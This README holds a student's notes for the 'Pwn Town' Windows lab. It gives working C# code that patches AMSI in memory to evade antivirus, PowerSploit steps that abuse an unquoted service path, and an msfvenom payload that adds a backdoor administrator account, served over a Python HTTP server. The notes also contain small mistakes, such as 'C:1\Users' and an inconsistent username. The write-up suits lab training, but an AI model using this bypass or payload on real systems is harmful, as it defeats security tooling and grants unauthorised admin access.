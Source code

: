 # Pwn-Town
Here are all of my notes for the Pwn Town lab!

Starting out
---
The first thing you want to do is get everything prepared. Some things I would to (to make your life easier) is:
* On your local computer, save the RDP configuration to make connecting easier
* Find the `pentest-tools` folder on the lab machine and pin that to quick access

Bypassing AMSI
---
The first major hurdle is bypassing AMSI, or Antimalware Scan Interface. After trying to run some of the powershell tools, you'll quickly notice they can't run because they "contain malware".

```diff
Import-Module .\PowerSploit.psd1
-This script contains malicious content and has been blocked by your antivirus software.
```

The way we can bypass this is a little weird (but works). We're going to compile a C file into a DLL, then load that into powershell. This part of bypassing AMSI was found on [this website](https://www.citadel.co.il/Home/Blog/1008) which took a long time to find!

If you want, you can just download the DLL from this repository and skip to where I load it into powershell.

### Creating the C file
For this, just open up notepad and copy this code ([source](https://www.citadel.co.il/Home/Blog/1008)):

```
using System;
using System.Runtime.InteropServices;

namespace BP
{
    public class AMS
    {
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("Kernel32.dll", EntryPoint = "RtlMoveMemory", SetLastError = false)]
        static extern void MoveMemory(IntPtr dest, IntPtr src, int size);


        public static void Disable()
        {
            IntPtr AMSDLL = LoadLibrary("amsi.dll");
            IntPtr AMSBPtr = GetProcAddress(AMSDLL, "Am" + "si" + "Scan" + "Buffer");
            UIntPtr dwSize = (UIntPtr)5;
            uint Zero = 0;
            VirtualProtect(AMSBPtr, dwSize, 0x40, out Zero);
            Byte[] Patch1 = { 0x31 };
            Byte[] Patch2 = { 0xff };
            Byte[] Patch3 = { 0x90 };
            IntPtr unmanagedPointer1 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch1, 0, unmanagedPointer1, 1);
            MoveMemory(AMSBPtr + 0x001b, unmanagedPointer1, 1);
            IntPtr unmanagedPointer2 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch2, 0, unmanagedPointer2, 1);
            MoveMemory(AMSBPtr + 0x001c, unmanagedPointer2, 1);
            IntPtr unmanagedPointer3 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch3, 0, unmanagedPointer3, 1);
            MoveMemory(AMSBPtr + 0x001d, unmanagedPointer3, 1);
            Console.WriteLine("Memory patched successfuly.");
        }
    }
}
```

Then, you can save this (maybe in a antivirus whitelisted folder>) as whatever you want, but I'm going to call it `AMSI.cs`.

### Compiling code into a DLL
Now, open up powershell change to the directory you saved the CS file in. Type this, replacing `<NAME>` with the name of the file you just created.

```
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\<NAME>.cs")) -OutputAssembly "AMSI.dll"
```

This with create a file called AMSI.dll.

### Loading the DLL into powershell
Now you should have the DLL called `AMSI.dll`. We need to load this into powershell to get around AMSI.

To do this, type:
```
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\AMSI.dll"))
```

Then, the final step is to patch the memory:
```
[BP.AMS]::Disable()
```

Now you should be able to run whatever you want in powershell!

Getting Local Admin
---
The next thing you need is local admin. For this, we can exploit the unquoted service path.

### What is Unquoted Service Path?
The unquoted service path is a path to a file that is unquoted!

Look at this path: `C:\Users\Marty McFly\run.exe`

There is a space in between Marty and Mcfly, and that path is not quoted.
Windows will look for run.exe, but since the path isn't quoted, it goes through the path and looks for files to run. It will end up stopping at Marty (thinking there is a file at _C:\Users_. It will run any file named Marty, and if there is no file, it moves on. Luckily, Windows runs this file with the highest privligas. We can put a file in the unquoted service path to run a payload.

### Finding Unquoted Service Paths
For the Pwn Twn lab, we need to find unquoted service paths.

In Powershell, CD to the PowerSploit folder located in `C:1\Users\Public\pentest-tools\PowerSploit-master`. This contains a ton of useful tools. Go ahead and import the module:
```
Import-Module .\Privesc.psd1
```
and check for unquoted service packs:
```
Get-UnquotedService
```
Your output should look something like this:
```diff
ServiceName    : Pwn Town Monitoring Agent
+Path           : C:\Program Files\Pwn Town\Pwn Agent\agent.exe
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'Pwn Town Monitoring Agent' -Path <HijackPath>
CanRestart     : False
Name           : Pwn Town Monitoring Agent
```

The highlighted line is the unquoted path.

```
C:\Program Files\Pwn Town\Pwn Agent\agent.exe
                   ^
```

One option would be to make an EXE file called _Pwn_ that contains a payload.

### Making a Payload

The payload that we will use creates a new admin account with the credentials you choose. This is perfect!

A lot of the information in this section came from [this video on YouTube](https://www.youtube.com/watch?v=WWE7VIpgd5I).

Start up a Kali Linux machine or VM, open terminal, and type this:

```
msfvenom -p windows/adduser USER=backdoom_admin PASS=<INSERTPASSWORD> -f exe > Pwn.exe
```

Don't forget to replace <INSERTPASSWORD> with the password you want. This is going to create a payload that creates a new user using msfvenom with the username *backdoor_admin*, the password of your choice, and it will make it all into an EXE file.
    
### Getting the Payload into Windows
Now you need to get the payload into Windows. The best way to do this would be using your virtualization app's built in transfer, but you can also run thos command to make an HTTP file server with python:

```
sudo python -m SimpleHTTPServer 80
```

Now, go to the IP address of the VM in your web browser and add `:80` to the end.

You should be able to navigate through and download the EXE to your computer.
    
(It might be better to watch [the video?](https://youtu.be/WWE7VIpgd5I?t=516))
    
When you have it on your computer, extract this into a ZIP file. On Windows, right click and choose _Send to Compressed (Zipped) Folder_. On Mac and Linux, Right Click and choose _Compress_. You can copy this to the Pwn Twn lab by copying and pasting it (most RDP clients have shared clipboards).
